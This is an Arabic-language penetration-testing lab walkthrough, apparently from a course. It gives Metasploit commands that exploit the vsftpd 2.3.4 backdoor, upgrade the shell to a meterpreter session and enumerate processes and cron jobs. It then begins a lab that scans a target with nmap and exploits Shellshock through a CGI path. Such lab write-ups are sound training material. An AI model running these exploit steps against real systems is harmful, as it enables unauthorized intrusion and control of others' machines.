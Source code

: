 طبعا نفس اللاب السابق ونفس الاستغلال  
```bash
msfconsole  
use exploit/unix/ftp/vsftpd_234_backdoor  
set RHOSTS 192.72.78.3  
run  
```  

ونشوف انه عطانا شيل الان  

طبعا الشيل الي معنا الان non-interactive راح نخليه interactive عن طريق ال Bash shell  
```bash
/bin/bash -i [to open interactive shell on Linux target]  
```  

طبعا الان راح نحاول نرفع السيشن الى meterpreter session  
```bash
sessions -u 1 [to upgrade from shell session to meterpreter session]  
```  

طبعا الان ندخل على السيشن وننفذ بعض الاوامر الي راح تفيدنا كمعلومات  
```bash
session -i 2  
```  

الان راح ننفذ بعض الاوامر  
```bash
ps [list of running processes on the target system]  
pgrep vsftpd [To find the PID of a specific service]  
```  

خلونا نفتح نشيل الان ونشوف كيف نشوف الكرون جوب  
```bash
ls -la /etc/cron*  [list of cron jobs on the Kali Linux system]  
```  

الى هنا انتهى اللاب نشوف الي بعده  

---

اللاب السادس الي معنا اليوم هو  

Automating Linux Local Enumeration   
-----------------------------------|  

طبعا في هذا اللاب راح نسوي automate لكل الي سويناه قبل خلونا نشوف مع بعض  

طبعا الاستغلال مختلف  

خلونا الان نفحص التارقت سواء عن طريق كل الشبكه ونطلع ايبي التارقت او نزيد على الايبي تبعنا ديجت واحد  
```bash
nmap -sV 192.182.85.3  
```  

نشوف ان بورت 80 مفتوح طبعا وشغال عليه خدمة Apache 2.4.6 ونبحث ونعرف انه مصاب بنستغله فورا  
```bash
msfconsole  
use exploit/multi/http/apache_mod_cgi_bash_env_exec  
set RHOSTS 192.182.85.3  
set TARGETURI /gettime.cgi [specify the cgi file PATH]  
exploit  
```  
